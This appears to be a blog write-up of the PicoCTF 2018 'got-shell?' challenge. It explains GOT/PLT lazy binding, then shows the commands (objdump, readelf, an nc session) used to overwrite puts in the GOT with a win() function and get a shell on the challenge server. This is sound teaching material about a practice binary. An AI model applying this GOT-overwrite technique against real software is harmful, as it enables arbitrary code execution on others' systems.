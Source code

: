 ```yaml
---
title:  PicoCTF 2018 - got-shell?
description: You're only 4 bytes away from pwn - assuming you can put them in the right spot.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - got-shell?

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

This is one of those problems that isn't a "bug" so much as an [intentional learning opportunity]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/shellcode.md %}).

```c
void win() {
  system("/bin/sh");
}

// ...
puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");
scanf("%x", &address);

sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
puts(buf);
scanf("%x", &value);

sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
puts(buf);
*(unsigned int *)address = value;
```

In essence, the program is asking you to stomp on any 4 bytes you'd like in memory.

## Strategy

This problem gives us a *very* simple arbitrary memory write exploit. Obviously, given the existence of the `win()` function, we should use that memory write to somehow call `win()`.

The secret to this problem is understanding the role of the "`.got.plt`" section of a binary. The intricacies of how the dynamic linker resolves symbols are probably best left to the experts. If you're interested in this kind of thing, then I highly recommend the following youtube video about the topic:

<iframe width="560" height="315" style="display: block; margin: 0 auto;" src="https://www.youtube-nocookie.com/embed/dOfucXtyEsU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Once we understand the role of the "`.got.plt`" segment, it will become clear how an arbitrary 4 byte memory write will help us execute the `win()` function. If you already know - the try the challenge now by running  `nc 2018shell.picoctf.com 3582`.

## Background Info

In a nutshell, when we link against libc we don't know ahead of time exactly where it will be in memory. This is particularly true if libc is compiled with PIE, and ASLR is turned on, but in general it is true because we expect libc to be mostly cross-compatible, and your binary may be running against a significantly newer version of libc than what the compiler had access to when it created the binary. We say that the binary is dynamically-linked against libc. The binary contains a list of dynamic symbols that it must "look-up" if/when it needs them. If we need `stdin` or `stdout`, for instance, then those symbols are located in `libc`. If we need the `puts` function, then the address we need to call is also inside `libc`. Sometimes the symbols will be looked up by `ld-linux.so`, which is the dynamic linker/loader used by linux systems when the executable first starts. Other times, the compiler will put in a small shim that will wait to resolve the symbol until the first time it is required (so-called lazy binding).

Generally the addresses of these dynamic symbols will end up in one of two sections in memory: either the "`.got`" data section (typically used for the address of global variables), or the "`.got.plt`", which is in data memory (not code, so not in an executable segment) that contains the address of functions. The compiler also emits small "thunks" for every function with dynamic linkage. These "thunks" are small bits of code (in an executable segment) that essentially "jump" to a corresponding address inside the "`.got.plt`" table (when lazy-binding is involved they also do a little bit more). When you call `puts` from code, you actually call a small "thunk" inside your program that loads the address for the `puts` symbol from the "`.got.plt`" table and then jumps to it.

Unless extreme measures are taken (so called "FULL-RELRO"), the "`.got.plt`" table is writeable (this is required if lazy-binding is to be used). If we over-write data inside the `.got.plt` table, then the next time the "thunk" is called, it will actually jump to whatever address we desire. We'll use this to call the `win()` function and grab the flag.

## Exploitation

First up, let's figure out the address of `win()`.

```
$ objdump -t ./auth | grep win
0804854b g     F .text  00000019              win
```
{:.contains-term}

Next, we need to figure out a dynamicly linked function that is called AFTER the memory stomp that we can override with our own function.

```c
*(unsigned int *)address = value;

puts("Okay, exiting now...\n");
exit(1);
```

In this case, either `puts` or `exit` should work - lets use `puts`. Now, what is the address for the `puts` symbol inside of the "`.got.plt`" segment?

```
$ readelf -r ./auth | grep puts
0804a00c  00000107 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
```
{:.contains-term}

In this case, the answer is `0x0804a00c`, which is where we want to write our new function pointer to `win()`, which is at `0x0804854b`.

Lets, try it out by connecting to `nc 2018shell.picoctf.com 3582`:

```
$ nc 2018shell.picoctf.com 3582
I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
0x0804a00c
Okay, now what value would you like to write to 0x804a00c
0x0804854b
Okay, writing 0x804854b to 0x804a00c
ls
auth
auth.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{===REDACTED===}
```

Awesome! Now that we know more about the "`.got`", let's head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) and tackle the next challenge.